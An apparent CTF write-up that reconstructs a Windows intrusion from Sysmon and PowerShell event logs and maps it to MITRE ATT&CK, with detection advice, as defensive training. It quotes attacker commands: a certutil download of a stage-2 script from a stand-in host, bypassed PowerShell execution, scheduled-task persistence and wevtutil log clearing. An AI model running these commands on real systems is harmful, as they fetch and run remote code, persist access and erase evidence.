



# Handbook for the Recently Compromised: Windows Intrusion from Event Logs

| | |
|---|---|
| **Platform** | TryHackMe (CTF challenge room) |
| **Room** | [Handbook for the Recently Compromised](https://tryhackme.com/room/handbookfortherecentlycompromised) |
| **Year** | 2026 |
| **Difficulty** | Medium |
| **Category** | Windows forensics · Log analysis · EVTX |
| **Tools** | `evtx_dump`, Python 3, MITRE ATT&CK |

## Scenario

A Windows workstation was flagged for unusual activity. The evidence is two exported event logs:
`Microsoft-Windows-Sysmon/Operational.evtx` and `PowerShell-Operational.evtx`. The job is to rebuild
the attack timeline, map each step to MITRE ATT&CK and work out what the attacker left behind.

## Method

### 1. Convert EVTX to something searchable

The analysis VM is Linux, so I converted both logs to JSON lines with `evtx_dump` and counted the event IDs:

```bash
evtx_dump -o jsonl Microsoft-Windows-Sysmon%4Operational.evtx > /tmp/s.jl
evtx_dump -o jsonl PowerShell-Operational.evtx               > /tmp/p.jl
python3 -c "import json,collections;print(collections.Counter(json.loads(l)['Event']['System']['EventID'] for l in open('/tmp/s.jl')))"
# Counter({1: 30, 22: 9, 11: 8, 13: 2, 12: 1})
```

Sysmon 1 = process creation · 11 = file created · 12/13 = registry · 22 = DNS query.

### 2. Build a one-line-per-event timeline

A small Python script prints time, event ID, image and the most useful field for each event
(CommandLine, TargetObject, QueryName, TargetFilename or ScriptBlockText):

```python
import json, sys
for l in open(sys.argv[1]):
    e = json.loads(l)['Event']; s = e['System']; d = e.get('EventData') or {}
    t = s['TimeCreated']['#attributes']['SystemTime'][11:19]
    v = (d.get('CommandLine') or d.get('QueryName') or d.get('TargetFilename')
         or d.get('ScriptBlockText') or d.get('TargetObject'))
    print(t, s['EventID'], str(d.get('Image','')).split('\\')[-1], '|', str(v)[:230])
```

### 3. Read the attack chain (Sysmon)



| Time (UTC) | Event | What happened | ATT&CK |
|---|---|---|---|
| 05:02:05 | Sysmon 1 | `mshta.exe` runs `Downloads\pipeline-check.hta`: the malicious attachment | **T1218.005** System Binary Proxy Execution: Mshta |
| 05:02:05 | Sysmon 1 | Hidden PowerShell resolves `C:\Windows\System32\certu*.exe` with a **wildcard** to hide the name | T1059.001 PowerShell · T1027 Obfuscation |
| 05:02:06 | Sysmon 1/11 | **`certutil.exe -urlcache -f http://pipeline-cdn.thm:8088/pipeline-sync.ps1`** downloads stage 2 to `%TEMP%` | T1105 Ingress Tool Transfer |
| 05:02:06 | Sysmon 1 | `powershell -ep bypass -f %TEMP%\pipeline-sync.ps1` | T1059.001 |
| 05:02:08 | Sysmon 1 | `schtasks /create /tn StudioPipelineSync ... /sc onlogon /rl highest` | **T1053.005** Scheduled Task |
| 05:02:09 | Sysmon 22 | DNS queries to `pipeline-cdn.thm` | T1071 C2 |

There was also discovery before the download (`whoami`, `ipconfig`, `tasklist`, T1033/T1016/T1057), and
`wevtutil cl` / `wevtutil epl` calls that clear and export logs (T1070.001).

### 4. Read what the script did (PowerShell 4104)

PowerShell Script Block Logging (event 4104) recorded the stage-2 script **after** deobfuscation.
The script builds strings with `-join` and `+` to beat simple keyword searches:

- beacon to `http://pipeline-cdn.thm:8088/checkin`
- create the scheduled task `StudioPipelineSync` that runs the script from `%AppData%\Roaming\PipelineSync\` at every logon
- decode a Base64 `$blob` and write it to `%TEMP%\PipelineSync\.sync-cache`



### 5. Recover the dropped payload

Instead of copying the Base64 by hand, I pulled it straight out of the event and decoded it:

```bash
python3 -c "import json,re,base64
for l in open('/tmp/p.jl'):
    t=str((json.loads(l)['Event'].get('EventData') or {}).get('ScriptBlockText',''))
    m=re.search(r'blob = \((.*?)\)',t)
    if m:
        s=''.join(re.findall(r\"'([^']*)'\",m.group(1))); print(base64.b64decode(s).decode())"
# THM{...}
```



## Answers

| Question | Answer |
|---|---|
| Utility hidden behind the wildcard | `certutil.exe` |
| Second-stage URL | `http://pipeline-cdn.thm:8088/pipeline-sync.ps1` |
| Sub-technique for the initial attachment | T1218.005 (Mshta) |
| Sub-technique for the persistence | T1053.005 (Scheduled Task) |
| Flag | `THM{...}` (redacted) |

## Detection takeaways

- **`mshta.exe` launching PowerShell** is rarely legitimate. Alert on that parent/child pair.
- **`certutil -urlcache -f`** is a classic LOLBin download. Wildcards (`certu*.exe`) are there to dodge command-line string matches, so match on the **Image** field (the resolved binary), not only on CommandLine text.
- **Scheduled tasks `/sc onlogon /rl highest`** created by a script are high-value persistence alerts (Sysmon 1 for `schtasks.exe` or Security event 4698).
- **Script Block Logging (4104)** shows the code after deobfuscation. Keep it on, and forward it before an attacker can run `wevtutil cl`.
- Correlate by time: each step looked ordinary alone, but together they form a clear chain within three seconds.
